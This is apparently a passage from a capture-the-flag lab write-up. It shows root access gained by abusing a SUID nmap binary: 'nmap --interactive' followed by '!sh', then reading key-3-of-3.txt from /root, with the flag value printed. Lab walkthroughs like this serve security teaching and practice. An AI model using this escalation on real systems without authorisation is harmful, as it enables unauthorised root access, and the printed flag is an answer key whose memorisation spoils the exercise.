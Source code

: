 (https://gtfobins.github.io/gtfobins/nmap/#suid%5C)
<img src="./img/Screenshot 2024-08-24 125339.png"></img>
Look for nmap
```
nmap --interactive
```

```
!sh
```
<img src="./img/Screenshot 2024-08-24 130348.png"></img>
we got the root
change into root directory
```
cd /root
ls
cat key-3-of-3.txt
```
<img src="./img/Screenshot 2024-08-24 130404.png"></img>
<img src="./img/Screenshot 2024-08-24 130828.png"></img>```
key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
